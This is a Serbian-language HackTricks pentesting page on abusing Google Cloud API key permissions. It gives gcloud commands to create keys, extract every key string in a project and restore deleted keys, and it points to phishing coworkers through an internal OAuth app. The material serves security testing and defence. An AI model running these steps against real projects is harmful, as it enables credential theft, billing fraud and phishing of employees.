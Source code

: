 # GCP - Apikeys Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apikeys

Sledeće dozvole su korisne za kreiranje i krađu API ključeva, ne zaboravite ovo iz dokumentacije: _API ključ je jednostavna enkriptovana niska koja **identifikuje aplikaciju bez ikakvog principala**. Korisni su za pristupanje **javnim podacima anonimno**, i koriste se za **povezivanje** API zahteva sa vašim projektom za kvotu i **naplatu**._

Dakle, sa API ključem možete naterati tu kompaniju da plati za vašu upotrebu API-a, ali nećete moći da eskalirate privilegije.

Za više informacija o API ključevima proverite:

{{#ref}}
../gcp-services/gcp-api-keys-enum.md
{{#endref}}

Za druge načine kreiranja API ključeva proverite:

{{#ref}}
gcp-serviceusage-privesc.md
{{#endref}}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Pošto možda ne znate koje API-je su omogućene u projektu ili ograničenja primenjena na API ključ koji ste pronašli, bilo bi zanimljivo pokrenuti alat [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) i proveriti **šta možete pristupiti sa API ključem.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Ova dozvola omogućava da **kreirate API ključ**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh).

> [!CAUTION]
> Imajte na umu da po defaultu korisnici imaju dozvole za kreiranje novih projekata i dodeljuje im se uloga Vlasnika nad novim projektom. Tako da korisnik može **da kreira projekat i API ključ unutar ovog projekta**.

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Ove dozvole omogućavaju **listanje i dobijanje svih apiKeys i dobijanje Ključa**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Ove dozvole vam omogućavaju da **prikazujete i regenerišete obrisane api ključeve**. **API ključ se daje u izlazu** nakon što je **obrisano**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Kreirajte internu OAuth aplikaciju za phishing drugih radnika

Pogledajte sledeću stranicu da biste saznali kako to učiniti, iako ova akcija pripada servisu **`clientauthconfig`** [prema dokumentaciji](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{{#ref}}
../../workspace-security/gws-google-platforms-phishing/
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
